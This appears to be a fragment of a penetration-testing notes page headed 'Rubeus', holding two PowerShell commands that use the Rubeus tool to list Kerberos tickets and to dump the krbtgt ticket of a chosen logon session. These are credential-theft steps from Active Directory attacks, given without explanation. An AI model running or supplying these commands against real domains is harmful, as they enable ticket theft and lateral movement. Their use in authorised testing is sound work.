 Rubeus

~~~PowerShell
./rubeus.exe klist
~~~

~~~PowerShell
./rubeus.exe dump,/service:krbtgt,/luid:LUID(0x26b1ba),/nowrap
~~~

